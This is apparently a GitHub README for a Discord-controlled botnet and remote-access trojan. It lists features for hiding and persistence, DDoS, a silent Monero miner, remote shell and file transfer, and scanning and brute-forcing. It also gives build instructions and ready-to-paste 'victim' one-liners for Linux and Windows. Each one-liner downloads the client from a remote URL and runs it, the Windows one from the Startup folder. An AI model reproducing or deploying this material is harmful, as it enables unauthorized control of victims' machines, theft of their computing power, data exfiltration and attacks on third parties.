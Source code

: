 # Discord.py BotNet
![image](https://user-images.githubusercontent.com/104208624/203850203-55e89e04-0f26-4d3c-b87f-e9d8be7ef81f.png)

https://discord.gg/vCdPTjD6rZ

# Developers
me: batu.sh#9675

bnt: @udbnt

# Features
* Hidden (Works in /tmp, %temp%)
* Persistence (Copying to /boot, shell:startup)
* Tested on Windows and Linux platforms
* DDoS attack uses "storm" script
* Mining uses "xmrig"

# Soon
* Web automation to provide bots
* !webcampic
* !revshell < IP > < PORT >
* !nmap
* ?

# Bot Commands

* !sessions                              (List open sessions)
* !check                                 (Check miner & ddos status)
* !updatelinux < LINK >                  (Update RAT on linux platforms) (input Client link)
* !updatewin < LINK >                    (Update RAT on windows platforms) (input Client.exe link)
* !ddos < IP >                           (Start DDoS Attack)
* !stopddos                              (Stop DDoS)
* !miner < WALLET >                      (Start slient XMR Crypto Miner CPU + AMD/INTEL GPU's)
* !stopminer                             (Stop miner)
* !zmap                                  (ZMap subnet scan) (Bruteforce ip addresses: https://github.com/bntr00t/sshb)

# Self Commands

* !info.< HOSTNAME >@< IP >                      (Send IP Information)
* !shell.< HOSTNAME >@< IP > < CMD >             (Run command)
* !download.< HOSTNAME > < IP > < URL > < NAME > (Download file to victim)
* !upload.< HOSTNAME >@< IP > < PATH >           (Upload file to bot)
* !nmap.< HOSTNAME >@< IP >                      (Nmap detailed subnet scan)

# How to build
pyinstaller --onefile --noconsole Client.py

after build check dist\Client or dist\Client.exe

# Linux victim
cd /boot; apt-get update -y; apt-get install curl -y; [ -f "Client" ] && rm Client; curl -O Client "https://raw.githubusercontent.com/NAME/NAME/main/NAME"; chmod 777 Client; ./Client

# Windows victim
cd "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup" & if exist Client.exe del Client.exe & powershell -command Invoke-WebRequest https://github.com/NAME/NAME/raw/main/NAME.exe -OutFile Client.exe & Client.exe
